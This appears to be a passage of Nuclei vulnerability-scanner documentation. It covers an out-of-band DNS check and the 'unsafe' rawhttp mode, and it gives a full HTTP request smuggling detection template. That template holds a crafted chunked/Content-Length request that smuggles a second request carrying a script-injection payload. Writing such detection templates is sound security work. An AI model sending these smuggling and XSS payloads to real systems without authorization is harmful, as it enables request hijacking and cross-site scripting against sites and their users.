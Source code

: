 ```yaml
          - "nslookup {{redirect}}"
    matchers:
      - type: word
        part: interactsh_protocol  # Confirms the DNS Interaction
        words:
          - "dns"
```

# Unsafe HTTP

Learn about using rawhttp or unsafe HTTP with Nuclei

Nuclei supports [**rawhttp**](https://github.com/projectdiscovery/rawhttp) for complete request control and customization allowing **any kind of malformed requests** for issues like HTTP request smuggling, Host header injection, CRLF with malformed characters and more.

**rawhttp** library is disabled by default and can be enabled by including **`unsafe: true`** in the request block.

Here is an example of HTTP request smuggling detection template using **`rawhttp`**.

```yaml
http:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'
```

# HTTP Payloads
